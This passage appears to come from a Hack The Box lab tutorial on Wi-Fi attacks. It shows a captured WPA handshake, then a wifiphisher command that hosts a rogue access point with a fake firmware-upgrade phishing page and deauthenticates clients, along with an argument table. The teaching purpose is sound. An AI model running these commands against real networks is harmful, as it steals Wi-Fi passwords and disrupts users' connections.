  BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
                                 
 52:CD:8C:79:AD:87  02:00:00:00:01:00  -29   11 -11      0       78  EAPOL  HTB-Wireless  
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ ls

HTB-01.cap        
</code></pre>
<p>We can stop the monitor mode on wlan0mon interface</p>
<pre><code class="language-shell-session">[!bash!]$ airmon-ng stop wlan0mon

PHY	Interface	Driver		Chipset

phy2	wlan0mon	mac80211_hwsim	HTB Chipset of 802.11 radio(s) for mac80211
		(mac80211 station mode vif enabled on [phy2]wlan0)
		(mac80211 monitor mode vif disabled for [phy2]wlan0mon)
phy3	wlan1		mac80211_hwsim	HTB Chipset of 802.11 radio(s) for mac80211
phy4	wlan2		mac80211_hwsim	HTB Chipset of 802.11 radio(s) for mac80211
</code></pre>
<p>Finally, to host a fake Access Point (AP) with a custom firmware page, we can execute the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ wifiphisher -aI wlan0 -eI wlan1 -p firmware-upgrade --handshake-capture HTB-01.cap -kN

Authorization required, but no authorization protocol specified
[*] Starting Wifiphisher 1.4GIT ( https://wifiphisher.org ) at 2025-01-18 22:07
[+] Timezone detected. Setting channel range to 1-13
[+] Selecting wlan1 interface for the deauthentication attack
[+] Selecting wlan0 interface for creating the rogue Access Point
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:44:12:0e
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:a8:34:e9
[*] Cleared leases, started DHCP, set up iptables
</code></pre>
<p>Here's a breakdown of the command:</p>
<table>
<thead>
<tr>
<th>Argument</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td><code>-aI wlan0</code></td>
<td>This specifies the interface (wlan0) that will host the rogue AP.</td>
</tr>
<tr>
<td><code>-eI wlan1</code></td>
<td>This specifies the interface (wlan1) that will perform the deauthentication and DOS attack.</td>
</tr>
<tr>
<td><code>-p firmware-upgrade</code></td>
<td>This selects the phishing scenario, in this case, a fake firmware update page.</td>
</tr>
<tr>
<td><code>--handshake-capture HTB-01.cap</code></td>
<td>This option provides the path to the valid captured handshake file (HTB-01.cap), which will be used to check the correct WPA key when the victim connects to the rogue AP.</td>
</tr>
<tr>
<td><code>-kN</code></td>
<td>Prevents the attack from killing the NetworkManager, allowing you to maintain other network functionalities on the attacking machine.</td>
</tr>
</tbody>